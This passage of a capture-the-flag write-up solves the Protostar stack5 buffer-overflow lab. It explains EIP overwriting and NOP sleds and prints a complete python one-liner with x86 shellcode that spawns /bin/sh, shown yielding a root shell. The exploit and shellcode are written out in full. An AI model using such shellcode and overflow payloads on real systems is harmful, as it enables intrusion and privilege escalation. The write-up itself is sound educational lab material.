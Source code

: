 ```bash
```
0xbffff750 -> \x50\xf7\xff\xbf

 **overwrite EIP with 0xbffff750, put the shellcode at the end**
 *running a program in gdb changes the stack a little, so our address might be off by a few hundred.* 
 - option1 :So either we can keep trying this with a bunch of different addresses until it works (which is definitely possible if you run a loop), 
 - option2: or we can extend our margin for error by using no-operations (NOPs)
   - **NOPs are just single characters (\x90) which tell the computer to skip past them to the next command.** -> This means if we write a bunch of them to memory (a NOP sled) and then write the shellcode after them, we can run the code by hitting any one of the NOPS. 
   **76 * buffer+ eip_overridden_address + 30*NOPS + shellcode_payload**
```bash
      With GDB                          Shellcode (without GDB)
\   \   \   \   \   \ 
\      buffer       \ <- 0xbffff750 ->  \   \   \   \   \   \
\       EIP         \                   \   filled buffer   \
\    other stuff    \                   \  overwritten EIP  \
\    GDB stuff      \ <- 0xbffff800 ->  \  NOPS & shellcode \
\   \   \   \   \   \                   \   \   \   \   \   \
```   
   
   
   
```bash
user@protostar:/opt/protostar/bin$ python -c "import sys;sys.stdout.write('\x90' * 76 + '\x50\xf7\xff\xbf'+ '\x90'*30 +'\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80');" | ./stack5
Segmentation fault

```
Well gdb isn’t that far out, so we try shifting down the stack (up in address) until we get a hit, we can use jumps of up to 30 bytes as this is the length of our NOP sled.
loop this until no segmentation error: 
**76 * buffer+ eip_overridden_address+30 + 30*NOPS + shellcode_payload**

in the end you will get `bffff800`
```bash
user@protostar:/opt/protostar/bin$ python -c "import sys;sys.stdout.write('\x90' * 76 + '\x00\xf8\xff\xbf'+ '\x90'*30 +'\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80');" | ./stack5
# whoami
root


```
\x00\xf8\xff\xbf
bffff800
bffff750

## Answer Stack 6

